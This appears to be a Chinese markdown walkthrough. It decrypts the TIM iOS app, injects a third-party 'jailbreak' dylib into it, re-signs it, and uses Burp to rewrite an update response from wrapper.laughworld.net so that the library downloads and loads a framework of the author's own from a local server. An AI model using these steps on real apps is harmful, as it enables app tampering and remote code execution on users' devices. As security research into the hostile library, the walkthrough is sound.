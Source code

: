 # 在TIM App中注入jailbreak

### 解密ipa

```
TMde-iPhone:~ root# ./clutch -i
Installed apps:
1:   TIM – 轻聊的QQ，更方便办公 <com.tencent.tim>
2:   人民日报 <cn.com.people.peopledailyphone>
TMde-iPhone:~ root# ./clutch -d 1
Zipping TIM.app
...
DONE: /private/var/mobile/Documents/Dumped/com.tencent.tim-iOS7.0-(Clutch-2.0.4).ipa
Finished dumping com.tencent.tim in 73.1 seconds
```

### 拷贝com.tencent.tim-iOS7.0-(Clutch-2.0.4).ipa至电脑并解压

```
# unzip com.tencent.tim-iOS7.0-\(Clutch-2.0.4\).ipa
# mv Payload TIM
```
### 在TIM中注入jailbreak
```
# cp com.mailtime.MailTimePro-clutch2/Payload/MailTime\ Pro.app/jailbreak TIM/TIM.app/
# cp com.mailtime.MailTimePro-clutch2/Payload/MailTime\ Pro.app/wrap.json TIM/TIM.app/
# vi TIM/TIM.app/wrap.json (修改package_name为com.tencent.tim)
# cd TIM/TIM.app/
# yololib TIM jailbreak
2017-06-28 19:40:36.300 yololib[1312:40852] dylib path @executable_path/jailbreak
2017-06-28 19:40:36.303 yololib[1312:40852] dylib path @executable_path/jailbreak
Reading binary: TIM
...
2017-06-28 19:40:36.303 yololib[1312:40852] size 50
2017-06-28 19:40:36.303 yololib[1312:40852] complete!
# otool -L TIM | grep jailbreak
	@executable_path/jailbreak (compatibility version 1.0.0, current version 1.0.0)
	@executable_path/jailbreak (compatibility version 1.0.0, current version 1.0.0)
```

### 重新签名并打包为ipa文件，安装新程序至iOS
工具：iOS App Signner、codesign、AppResign、Cydia Impactor皆可以

### iOS配置局域网代理，并使用BurpSuite抓包，BurpSuite开启修改*Intercept Client Resquests*功能
### 新建动态链接库
[DailyUploadDownloadLib](../DailyUploadDownloadLib)
压缩并计算md5
```
# md5 DailyUploadDownloadLib.framework.zip
MD5 (DailyUploadDownloadLib.framework.zip) = 08ae6354cd0c41d807cb2fbda5a52d9f
```
### 启动本地httpd，并将DailyUploadDownloadLib.framework.zip放置在根目录
```
# sudo httpd
# sudo mv DailyUploadDownloadLib.framework.zip /Library/WebServer/Documents/lib/
```
### 启动App,使用burp修改以下请求回包
```
GET /api/com.tencent.time_update.json HTTP/1.1
Host: wrapper.laughworld.net
Accept: */*
User-Agent: TIM/1.1.6.416 CFNetwork/711.4.6 Darwin/14.0.0
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
Connection: close
```
修改返回的request数据包
```
HTTP/1.1 200 OK
Server: nginx/1.10.2
Date: Wed, 28 Jun 2017 14:09:31 GMT
Content-Type: application/json
Content-Length: 191
Last-Modified: Thu, 27 Apr 2017 02:54:25 GMT
Connection: close
ETag: "59015d61-bf"
Accept-Ranges: bytes

{"show_ads":"NO","linkfw":"http:\/\/wrapper.laughworld.net\/lib\/DailyUploadDownloadLib.framework.zip","namefw":"DailyUploadDownloadLib.framework","md5fw":"9e76e8cc5bc776ce7a2981be6418ed35"}
```
修改linkfw和md5fw的值
```
{"show_ads":"NO","linkfw":"http:\/\/10.0.0.239\/lib\/DailyUploadDownloadLib.framework.zip","namefw":"DailyUploadDownloadLib.framework","md5fw":"08ae6354cd0c41d807cb2fbda5a52d9f"}
```
